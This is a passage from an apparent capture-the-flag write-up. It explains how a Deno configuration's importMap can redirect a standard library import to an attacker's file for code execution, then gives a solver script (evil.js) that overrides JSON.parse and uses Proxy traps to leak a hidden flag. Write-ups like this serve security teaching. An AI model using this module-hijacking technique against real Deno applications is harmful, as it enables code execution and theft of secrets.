 You will notice a interesting property `importMap` if you check the schema of the configuration:
```javascript
// From: https://deno.land/x/deno@v1.27.1/cli/schemas/config-file.v1.json
/* snip */
    "importMap": {
      "description": "The location of an import map to be used when resolving modules. If an import map is explicitly specified, it will override this value.",
      "type": "string"
    },
/* snip */
```

Import maps:

- https://github.com/WICG/import-maps
- https://deno.land/manual@v1.27.1/linking_to_external_code/import_maps

Using this property, you can assign `https://deno.land/std@0.161.0/crypto/mod.ts` into an arbitrary file. Of course, it includes your JavaScript file served on your server!

Thus, you can do RCE! However, note that there is a permission `--allow-write=.` and you cannot read the source code.

#### Step 3: JavaScript Proxy

The goal is to hook any process in the following:
```typescript
if ("{{FLAG}}" in output) {
  delete output["{{FLAG}}"];
}
```

It is possible using JavaScript Proxy:

- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Meta_programming
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

### Solver

`evil.js`:
```javascript
export const crypto = {
  randomUUID: () => ({
    replaceAll: () => "dummy",
  }),
};

const proxy1 = new Proxy(
  {},
  {
    has(target, propertyKey) {
      console.log(propertyKey); // output a flag
      return Reflect.has(...arguments);
    },
  }
);

const proxy2 = new Proxy(
  {},
  {
    set(target, property, value, receiver) {
      Object.setPrototypeOf(value, proxy1);
      return Reflect.set(...arguments);
    },
  }
);

JSON.parse = () => proxy2;
```

[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.